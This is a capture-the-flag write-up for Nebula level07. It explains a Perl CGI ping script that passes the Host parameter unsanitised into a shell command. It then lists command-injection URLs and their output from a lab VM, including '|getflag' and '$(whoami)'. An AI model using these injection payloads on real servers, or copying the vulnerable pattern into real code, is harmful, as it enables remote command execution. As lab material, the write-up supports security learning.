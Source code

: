 # For level07 in nebula

>The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.
>  
>To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07.

We are given the source code of the following perl program and given the hint that this is related toa web server. (Before I solved this challenge, I had *no* idea that perl cgi was a server side script for web servers).
```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

On first glance, it is obvious that the program is vulnerable to [OS command injection](https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013)). 

The program simply takes whatever value is given as an argument to `param("Host")` and chucks it into `ping -c 3 $host 2>&1` without any input sanitation whatsoever.



Let's explore what files are present in `/home/flag07`. They might come in handy.
```
level07@nebula:/home/flag07$ ls -la
total 10
drwxr-x--- 2 flag07 level07  102 2011-11-20 20:39 .
drwxr-xr-x 1 root   root     300 2012-08-27 07:18 ..
-rw-r--r-- 1 flag07 flag07   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag07 flag07  3353 2011-05-18 02:54 .bashrc
-rwxr-xr-x 1 root   root     368 2011-11-20 21:22 index.cgi
-rw-r--r-- 1 flag07 flag07   675 2011-05-18 02:54 .profile
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf
```
There are 2 files of particular interest to us, `index.cgi` and `thttpd.conf`. As [man pages show](https://linux.die.net/man/8/thttpd), thttpd is a simple, small, fast, and secure HTTP server. So `thttpd.conf` is its configuration file. Let's see what useful information it contains.

```
level07@nebula:/home/flag07$ cat thttpd.conf 
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007

[...]
# Specifies what user to switch to after initialization when started as root.
user=flag07

```

The config file specifies that the server runs as `user=flag07`, and listens at `port=7007`. At the time of doing this challenge, the Nebula VM was on IP address 192.168.1.20. So, we will connect to it through the URL `http://192.168.1.20:7007/index.cgi`.


Let's get started.
#### Intended Usage

Input: `http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8`

Output : 
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=53 time=3.26 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=53 time=3.50 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=53 time=3.82 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2012ms
rtt min/avg/max/mdev = 3.269/3.530/3.820/0.235 ms
```

#### Unintended Usage

Input: `http://192.168.1.20:7007/index.cgi/?Host=$(whoami)`

Output: `ping: unknown host flag07`

`ping -c 3 $host 2>&1` -> `ping -c 3 $(whoami) 2>&1` -> `ping -c 3 flag07 2>&1`. `flag07` is not a valid host to ping, so an error was returned by `ping`.

But this output proves 2 facts.
1. The program *really is* vulnerable to OS command injection.
2. The program is executed as `flag07`, so if we inject the command `getlfag`, it'll be run as `flag07`. It's the perfect plan.


#### Winning

Input: `http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8|getflag`

Output: `You have successfully executed getflag on a target account`



#### Troubles with command injection

I did not successfully exploit the OS command injection vulnerability on the first go. I *knew* there is such a vulnerability. It just took me several tries to get correctly exploit the weakness.

**Failed 1**  
Input: `http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8|$(ls)`

Output: `sh: index.cgi: command not found`

`ping -c 3 $host 2>&1` -> `ping -c 3 8.8.8.8|$(ls) 2>&1` -> `ping -c 3 8.8.8.8 | index.cgi 2>&1` 
There is no output from `ping` to stdout as it was piped into the non-existant "command" `index.cgi`. So all we see is the shell complain that there is no such command.

**Failed 2**  
Input1: `http://192.168.1.20:7007/index.cgi/?Host=\`ls\``
Input2: `http://192.168.1.20:7007/index.cgi/?Host=$(ls)`

Output: `ping: unknown host index.cgi`

`ping -c 3 $host 2>&1` -> `ping -c 3 $(ls) 2>&1` -> `ping -c 3 index.cgi 2>&1`. `index.cgi` is not a valid host to ping, so an error was returned by `ping`.

**Failed 3**
Input: `http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8;$(ls)`

Output: 
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=53 time=3.49 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=53 time=3.48 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=53 time=3.31 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2011ms
rtt min/avg/max/mdev = 3.314/3.432/3.496/0.083 ms
```

**Failed 3**  
Input (in the website): `http://192.168.1.20:7007/index.cgi/?Host=192.168.1.20;ls`

Output (in the website): 
```
PING 192.168.1.20 (192.168.1.20) 56(84) bytes of data.
64 bytes from 192.168.1.20: icmp_req=1 ttl=64 time=0.028 ms
64 bytes from 192.168.1.20: icmp_req=2 ttl=64 time=0.078 ms
64 bytes from 192.168.1.20: icmp_req=3 ttl=64 time=0.077 ms

--- 192.168.1.20 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.028/0.061/0.078/0.023 ms
```

Honestly, I have no idea why the output of `ls` was not included. Because when I ran the command in the command line, the output of `ls` was included in stdout.

```
level07@nebula:/home/flag07$ ping -c 3 8.8.8.8; ls
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.

[...]
index.cgi  thttpd.conf
```

Only when I changed `;` to `|` was I given the expected output in the webpage.

**Passed 1**  
Input: http://192.168.1.20:7007/index.cgi/?Host=8.8.8.8|ls

Output: 
```
index.cgi
thttpd.conf
```

This is the correct output of the injected command `ls`. `ls` does not accept inputs from stdin, so it does not matter that any output was piped to it. Also, `thttpd.conf` shows that the server is run with `/home/flag07` as its directory. That's why `ls` shows us these 2 files present in `/home/flag07`.

```
# Specifies a directory to chdir() to at startup. This is merely a convenience -
# you could just as easily do a cd in the shell script that invokes the program.
dir=/home/flag07
```


END

